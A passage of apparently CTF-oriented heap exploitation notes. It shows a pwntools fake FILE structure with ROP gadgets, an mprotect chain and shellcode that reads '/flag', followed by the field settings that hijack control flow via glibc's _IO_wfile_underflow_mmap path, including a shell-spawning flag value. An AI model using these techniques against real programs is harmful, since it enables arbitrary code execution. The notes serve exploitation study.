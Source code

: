 ```python
        0x20: 0,	# _IO_write_base
        0x28: 1,	# _IO_write_ptr
        0x38: add_rsp_0x28_r,          
        0x48: fakeIO_addr+0x30,  
        0x58: leave_r,
        0x60: fakeIO_addr+0x30,
        0x68: p_rdi_r, 
        0x70: fake_IO&(~0xfff), 
        0x78: p_rsi_r, 
        0x80: 0x4000, 
        0x88: add_rsp_0xa8_r, 
        0xa0: fakeIO_addr+0x100,    # _wide_data 
        0xd8: _IO_wfile_jumps   # vtable
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x30: 0,    # _IO_buf_base
        0x38:[p_rdx_rbx_r, 7, 0, mprotect, fake_IO+0x100+0x70],
        0x70: asm(shellcraft.open('/flag', 0) + shellcraft.read(3, heap_base, 0x100) + shellcraft.write(1, heap_base, 0x100)),	# orw_chain
        0xe0: fake_IO+0x200   # _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # mov rbp, [rdi + 0x48]; mov rax, [rbp + 0x18]; lea r13, [rbp + 0x10]; 
        # mov [rbp + 0x10], 0; mov rdi, r13; call [rax + 0x28];
        0x68: svcudp_reply  # __doallocate 
    }
}, filler='\0')
```

- `_IO_write_base` & `_IO_buf_base` at **fake_IO->_wide_data** not necessary.

- Mprotect chain is separated and connected by `add rsp, ...` gadgets (manually search offsets).

- Manually ORW chain format, can be replaced with `orw_chain`.

### HIJACK | _IO_wfile_underflow_mmap

**Attack Chain**:

```
_IO_wfile_underflow_mmap
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

**Fake IO Deployment**:

- `_flags`: `~4`; Or simply `0` if we don't care `rdi`; Set  `'  sh;'` for getting shell.
- `vtable`:  `_IO_wfile_jumps_mmap`.
- `_IO_read_ptr < _IO_read_end`: namely `*(fp+8) < *(fp+0x10)`.
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_read_ptr >= _wide_data->_IO_read_end`: namely `*A >= *(A+8)`.
- `_wide_data->_IO_buf_base`: `0`，namely `*(A+0x30)=0`.
- `_wide_data->_IO_save_base`: `0` or a valid address can be free, namely `*(A+0x40)=0`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget `C`  to hijack `RIP`, namely `*(B+0x68)=C`.
